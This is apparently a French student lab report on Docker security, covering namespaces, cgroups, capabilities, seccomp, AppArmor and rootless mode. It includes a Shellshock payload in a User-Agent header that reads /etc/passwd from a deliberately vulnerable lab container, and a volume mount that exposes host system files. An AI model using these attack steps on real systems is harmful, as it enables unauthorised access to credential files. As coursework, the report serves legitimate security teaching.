



# <center> TP/TD sécurité Docker

## 3. Utilisation des namespaces par Docker

### 3.1 Accéder au namespace de l’hôte depuis un container Docker c’est mal

```bash
arnaud@arnaud:~/tpdocker/ubuntu$ docker run -it --pid=host --net=host ubuntu-custom
root@arnaud:/# ip -br a
lo               UNKNOWN        127.0.0.1/8 ::1/128 
enp45s0          UP             10.202.0.129/16 fe80::9850:5e17:6f79:f989/64 
wlo1             UP             172.24.10.71/16 fe80::f579:87d:7487:8d2f/64 
virbr0           DOWN           192.168.122.1/24 
docker0          DOWN           172.17.0.1/16 fe80::42:3bff:fe57:62f4/64 
root@arnaud:/# ps aux | grep discord
ubuntu     10182  0.5  1.1 1177980752 185496 ?   Sl   06:13   0:11 /snap/discord/189/usr/share/discord/Discord --use-tray-icon --no-sandbox --disable-seccomp-filter-sandbox
ubuntu     10330  0.0  0.3 33800396 51456 ?      S    06:13   0:00 /snap/discord/189/usr/share/discord/Discord --type=zygote --no-zygote-sandbox --disable-seccomp-filter-sandbox --no-sandbox
ubuntu     10331  0.0  0.3 33800384 51328 ?      S    06:13   0:00 /snap/discord/189/usr/share/discord/Discord --type=zygote --disable-seccomp-filter-sandbox --no-sandbox
ubuntu     10344  0.0  0.0 33575880 3072 ?       Sl   06:13   0:00 /snap/discord/189/usr/share/discord/chrome_crashpad_handler --monitor-self-annotation=ptype=crashpad-handler --no-rate-limit --database=/home/arnaud/snap/discord/189/.config/discord/Crashpad --url=https://f.a.k/e --annotation=_productName=discord --annotation=_version=0.0.52 --annotation=lsb-release=Ubuntu Core 22 --annotation=plat=Linux --annotation=prod=Electron --annotation=ver=28.2.10 --initial-client-fd=43 --shared-client-connection
ubuntu     10376  0.6  0.9 34389384 153660 ?     Sl   06:13   0:12 /snap/discord/189/usr/share/discord/Discord --type=gpu-process --disable-seccomp-filter-sandbox --no-sandbox --crashpad-handler-pid=10344 --enable-crash-reporter=50179c7d-d7de-43b5-a05d-9f8a0fb71a0d,no_channel --user-data-dir=/home/arnaud/snap/discord/189/.config/discord --gpu-preferences=WAAAAAAAAAAgAAAEAAAAAAAAAAAAAAAAAABgAAAAAAA4AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABAAAAGAAAAAAAAAAYAAAAAAAAAAgAAAAAAAAACAAAAAAAAAAIAAAAAAAAAA== --shared-files --field-trial-handle=0,i,4766258461992334745,14436692427710097742,262144 --enable-features=kWebSQLAccess --disable-features=HardwareMediaKeyHandling,MediaSessionService,SpareRendererForSitePerProcess,WinRetrieveSuggestionsOnlyOnDemand --variations-seed-version
ubuntu     10400  0.1  0.4 33867104 78004 ?      Sl   06:13   0:02 /snap/discord/189/usr/share/discord/Discord --type=utility --utility-sub-type=network.mojom.NetworkService --lang=fr --service-sandbox-type=none --no-sandbox --crashpad-handler-pid=10344 --enable-crash-reporter=50179c7d-d7de-43b5-a05d-9f8a0fb71a0d,no_channel --user-data-dir=/home/arnaud/snap/discord/189/.config/discord --secure-schemes=disclip --bypasscsp-schemes=sentry-ipc --cors-schemes=sentry-ipc --fetch-schemes=disclip --shared-files=v8_context_snapshot_data:100 --field-trial-handle=0,i,4766258461992334745,14436692427710097742,262144 --enable-features=kWebSQLAccess --disable-features=HardwareMediaKeyHandling,MediaSessionService,SpareRendererForSitePerProcess,WinRetrieveSuggestionsOnlyOnDemand --variations-seed-version
ubuntu     10518  4.3  2.2 1191228096 355368 ?   Sl   06:13   1:30 /snap/discord/189/usr/share/discord/Discord --type=renderer --crashpad-handler-pid=10344 --enable-crash-reporter=50179c7d-d7de-43b5-a05d-9f8a0fb71a0d,no_channel --user-data-dir=/home/arnaud/snap/discord/189/.config/discord --secure-schemes=disclip --bypasscsp-schemes=sentry-ipc --cors-schemes=sentry-ipc --fetch-schemes=disclip --app-path=/snap/discord/189/usr/share/discord/resources/app.asar --no-sandbox --no-zygote --disable-seccomp-filter-sandbox --no-sandbox --autoplay-policy=no-user-gesture-required --lang=fr --num-raster-threads=4 --enable-main-frame-before-activation --renderer-client-id=6 --time-ticks-at-unix-epoch=-1714975641426446 --launch-time-ticks=354821808 --shared-files=v8_context_snapshot_data:100 --field-trial-handle=0,i,4766258461992334745,14436692427710097742,262144 --enable-features=kWebSQLAccess --disable-features=HardwareMediaKeyHandling,MediaSessionService,SpareRendererForSitePerProcess,WinRetrieveSuggestionsOnlyOnDemand --variations-seed-version --enable-node-leakage-in-renderers
ubuntu     10559  0.0  0.3 34123472 60672 ?      Sl   06:13   0:00 /snap/discord/189/usr/share/discord/Discord --type=utility --utility-sub-type=audio.mojom.AudioService --lang=fr --service-sandbox-type=none --no-sandbox --crashpad-handler-pid=10344 --enable-crash-reporter=50179c7d-d7de-43b5-a05d-9f8a0fb71a0d,no_channel --user-data-dir=/home/arnaud/snap/discord/189/.config/discord --secure-schemes=disclip --bypasscsp-schemes=sentry-ipc --cors-schemes=sentry-ipc --fetch-schemes=disclip --shared-files=v8_context_snapshot_data:100 --field-trial-handle=0,i,4766258461992334745,14436692427710097742,262144 --enable-features=kWebSQLAccess --disable-features=HardwareMediaKeyHandling,MediaSessionService,SpareRendererForSitePerProcess,WinRetrieveSuggestionsOnlyOnDemand --variations-seed-version
root       42623  0.0  0.0   3528  1792 pts/0    S+   06:48   0:00 grep --color=auto discord
root@arnaud:/# 
```

> On peut voir que mon container à accès au réseau ainsi qu'au processus de ma machine hôte.

### 3.2 Utilisation des usernamespaces par Docker afin de limiter les droits d’un attaquant

- 1. Activez l’option –userns-remap avec le daemon docker afin d’activer les usernamespaces pour l’ensemble de containers.

```bash
arnaud@arnaud:~/tpdocker/ubuntu$ cat /etc/docker/daemon.json
{
  "userns-remap":"arnaud"
}

arnaud@arnaud:~/tpdocker/ubuntu$ cat /etc/subuid
arnaud:100000:65536
arnaud@arnaud:~/tpdocker/ubuntu$ cat /etc/subgid
arnaud:100000:65536
arnaud@arnaud:~/tpdocker/ubuntu$ 
```

- 2. Lancez un container avec un processus bash et vérifiez que dans le container ce processus est vu comme appartenant à root et comme appartenant à un utilisateur mappé dans l’hôte.

```bash
# Sur la machine hôte
arnaud@arnaud:~/tpdocker/ubuntu$ ps aux | grep bash
arnaud     11229  0.0  0.0  15572  7168 pts/0    Ss   08:16   0:00 bash
100000     63222  0.0  0.0   4588  3968 pts/0    Ss+  09:09   0:00 /bin/bash  # <-- utilisateur mappé
arnaud     63417  0.0  0.0  13956  5376 pts/1    Ss   09:09   0:00 bash
arnaud     65392  0.0  0.0  11780  2560 pts/1    S+   09:11   0:00 grep --color=auto bash
```

```bash
arnaud@arnaud:~/tpdocker/ubuntu$ docker run -it ubuntu-custom
root@3270f5dcb470:/# ps aux
USER         PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
root           1  0.1  0.0   4588  3968 pts/0    Ss   07:09   0:00 /bin/bash
root           9  0.0  0.0   7888  4096 pts/0    R+   07:09   0:00 ps aux
root@3270f5dcb470:/# 
```

> On voit bien que le container appartient à l''utilisateur que j'ai mappé sur la machine hôte, il est pourtant bien 'root' sur le container.

### 3.3 Contrôle des ressources allouées aux processus d’un container

#### 3.3.1 Contrôle des ressources des containers au travers des cgroups

```bash
1. A partir de ce Dockerfile.
FROM debian:latest
RUN apt-get update && \
apt-get install stress
Générez une image d’un container "stresseur":
cd ../buildstress
docker rmi jmp/stress
docker build -t jmp/stress .
```

```bash
arnaud@arnaud:~/tpdocker/stress$ docker ps
CONTAINER ID   IMAGE     COMMAND                  CREATED          STATUS          PORTS     NAMES
c18c6a4a0585   stress    "/bin/sh -c 'stress …"   48 seconds ago   Up 47 seconds             interesting_johnson
arnaud@arnaud:~/tpdocker/stress$ docker kill interesting_johnson 
interesting_johnson
arnaud@arnaud:~/tpdocker/stress$ cat Dockerfile 
FROM debian:latest
RUN apt-get update && \
apt-get install stress

ENTRYPOINT stress --cpu 8 --io 4
arnaud@arnaud:~/tpdocker/stress$ docker build -t stress .
[+] Building 1.3s (6/6) FINISHED                                                                                                                                                             docker:default
 => [internal] load build definition from Dockerfile                                                                                                                                                   0.0s
 => => transferring dockerfile: 137B                                                                                                                                                                   0.0s
 => [internal] load metadata for docker.io/library/debian:latest                                                                                                                                       1.0s
 => [internal] load .dockerignore                                                                                                                                                                      0.0s
 => => transferring context: 2B                                                                                                                                                                        0.0s
 => [1/2] FROM docker.io/library/debian:latest@sha256:1aadfee8d292f64b045adb830f8a58bfacc15789ae5f489a0fedcd517a862cb9                                                                                 0.0s
 => CACHED [2/2] RUN apt-get update && apt-get install stress                                                                                                                                          0.0s
 => exporting to image                                                                                                                                                                                 0.0s
 => => exporting layers                                                                                                                                                                                0.0s
 => => writing image sha256:1f2dbbf455c51a50c5e47377386cc48984e202c7ba7602f66fa282a998c548cc                                                                                                           0.0s
 => => naming to docker.io/library/stress                                                                                                                                                              0.0s

What's Next?
  1. Sign in to your Docker account → docker login
  2. View a summary of image vulnerabilities and recommendations → docker scout quickview
arnaud@arnaud:~/tpdocker/stress$ docker run stress
stress: info: [7] dispatching hogs: 8 cpu, 4 io, 0 vm, 0 hdd
```

- 2. Lancez le container "stresseur" et ouvrez une fenêtre htop pour voir la consommation de ressources sur l’hôte :



- 3. Récréez le container et limitez-le à l’utilisation d’un seul CPU.

```bash
arnaud@arnaud:~/tpdocker/stress$ docker run --cpus 2 --memory 1024m stress
stress: info: [7] dispatching hogs: 8 cpu, 4 io, 0 vm, 0 hdd
```



> On peut voir qu'en limitant à 2 cpus le container, la charge est en réalité répartie sur tous les coeurs de la machine hôte.

#### 3.3.2 Lutte contre l’épuisement des ressources du container et de l’hôte par déni de service local ( "fork bomb" par exemple )

- 2. Trouvez le moyen lors de sa création ( docker run ) de limiter le nombre de processus dans le container.

```bash
arnaud@arnaud:~/tpdocker/stress$ docker run -it --pids-limit 200 ubuntu-custom
```

## 4. Sécurisation des capacités données à un container Docker

### 4.1 Création d’un container privilégié

L'option --privileged permet d'accés au capabillities de la machine host comme vous pouvez le voir ci-dessous:

```sh
root@cbeba91cd306:~# pscap
ppid  pid   name        command           capabilities
1     11    root        su                full
11    12    root        bash              full
12    17    root        bash              full
17    19    root        bash              full
19    20    root        bash              full

root@cbeba91cd306:/# capsh --print
Current: =ep
Bounding set =cap_chown,cap_dac_override,cap_dac_read_search,cap_fowner,cap_fsetid,cap_kill,cap_setgid,cap_setuid,cap_setpcap,cap_linux_immutable,cap_net_bind_service,cap_net_broadcast,cap_net_admin,cap_net_raw,cap_ipc_lock,cap_ipc_owner,cap_sys_module,cap_sys_rawio,cap_sys_chroot,cap_sys_ptrace,cap_sys_pacct,cap_sys_admin,cap_sys_boot,cap_sys_nice,cap_sys_resource,cap_sys_time,cap_sys_tty_config,cap_mknod,cap_lease,cap_audit_write,cap_audit_control,cap_setfcap,cap_mac_override,cap_mac_admin,cap_syslog,cap_wake_alarm,cap_block_suspend,cap_audit_read,cap_perfmon,cap_bpf,cap_checkpoint_restore
Ambient set =
Current IAB: 
Securebits: 00/0x0/1'b0
 secure-noroot: no (unlocked)
 secure-no-suid-fixup: no (unlocked)
 secure-keep-caps: no (unlocked)
 secure-no-ambient-raise: no (unlocked)
uid=0(root) euid=0(root)
gid=0(root)
groups=0(root)
Guessed mode: UNCERTAIN (0)

```

### 4.2 Prise de contrôle du container avec des capabilities permettant une escalade de privilèges

```sh
dio@lucky-theone:~$ docker run -d --cap-drop=cap_kill debian:pingfour
dcc8c559321f18e51520bbb7bd0f43cbd5cc5dd3faec998b379ee255ac684f3f


```

## 5 Attaque sur le daemon Docker par un utilisateur local à l’hôte

- 1. Sous le compte d’un utilisateur appartenant au groupe Docker, trouvez le moyen d’accéder à /etc/-password et /usr/sbin/ de la machine en utilisant les volumes Docker

```bash
docker run -it -v /etc/passwd:/host/etc/passwd -v /usr/sbin:/host/usr/sbin ubuntu-custom bash
```

- 2. Qu’en deduisez-vous de la sécurité d’un PC de développeur avec Docker ?

## 6. Utilisation de AppArmor afin de contrôler un container vulnérable à ShellShock

2) Voici la commande pour lancer le docker

```bash
docker run -d -p 80:80 --name=hitme --hostname=hitme registry.iutbeziers.fr/debian-lenny-shellshock
```

4) Voici la commande :

```bash
dio@lucky-theone:~$ curl -H 'User-Agent: () { :; }; echo ; echo ; /bin/cat /etc/passwd' bash -s :'' http://172.17.0.2/cgi-bin/simple-cgi-bin.sh

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/bin/sh
man:x:6:12:man:/var/cache/man:/bin/sh
lp:x:7:7:lp:/var/spool/lpd:/bin/sh
mail:x:8:8:mail:/var/mail:/bin/sh
news:x:9:9:news:/var/spool/news:/bin/sh
uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh
proxy:x:13:13:proxy:/bin:/bin/sh
www-data:x:33:33:www-data:/var/www:/bin/sh
backup:x:34:34:backup:/var/backups:/bin/sh
list:x:38:38:Mailing List Manager:/var/list:/bin/sh
irc:x:39:39:ircd:/var/run/ircd:/bin/sh
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh
nobody:x:65534:65534:nobody:/nonexistent:/bin/sh
libuuid:x:100:101::/var/lib/libuuid:/bin/sh
dio@lucky-theone:~$ wget -U 'User-Agent: () { :; }; echo ; echo ; /bin/cat /etc/passwd' bash :'' http://172.17.0.2/cgi-bin/simple-cgi-bin.sh
--2024-05-06 14:36:07--  http://bash/
Resolving bash (bash)... failed: Name or service not known.
wget: unable to resolve host address ‘bash’
:: Scheme missing.
--2024-05-06 14:36:07--  http://172.17.0.2/cgi-bin/simple-cgi-bin.sh
Connecting to 172.17.0.2:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: unspecified [text/plain]
Saving to: ‘simple-cgi-bin.sh.1’

simple-cgi-bin.sh.1                                      [ <=>                                                                                                                  ]      24  --.-KB/s    in 0s      

2024-05-06 14:36:07 (1,71 MB/s) - ‘simple-cgi-bin.sh.1’ saved [24]

FINISHED --2024-05-06 14:36:07--
Total wall clock time: 0,03s
Downloaded: 1 files, 24 in 0s (1,71 MB/s)
```

## 7. Utilisation de SecComp pour limiter l’utilisation de certains appels systèmes

2) Voici la commande :

```bash
docker run --security-opt="seccomp=default-no-chmod.json" debian:latest 
```

3) Le fichier est un fichier de configuration qui autorise ou non l'accès à certain paquets.

4) Voici le retour de la commande:

```bash
root@21be07cadbd7:/# chmod 777 /etc/passwd  
chmod: changing permissions of '/etc/passwd': Operation not permitted
```

## 8. Containers en lecture seule

Comme nous pouvons le voir sur l'image ci-dessous nous ne pouvons pas nous connecter au docker :



## 9. Contrôle de l’élévation de privilèges dans un container via l’option "-security-opt=no-new-privileges"

La commande "-security-opt=no-new-privileges" permet de se connecter à notre container avec un utilisateur sans privilèges.

## 10. Rootless containers


1) On peut lancer un docker avec la commande suivante:

```bash
docker run -p 80 debian:latest

dio@lucky-theone:~$ docker ps -a
CONTAINER ID   IMAGE           COMMAND   CREATED         STATUS                     PORTS     NAMES
92368109823d   debian:latest   "bash"    7 seconds ago   Exited (0) 6 seconds ago             elastic_jenning
```

2) Le docker en mode Rootless nous permet de lancer les dockers sans avoir les droits du su. C'est un avantage dans le cadre de l'enseignement.
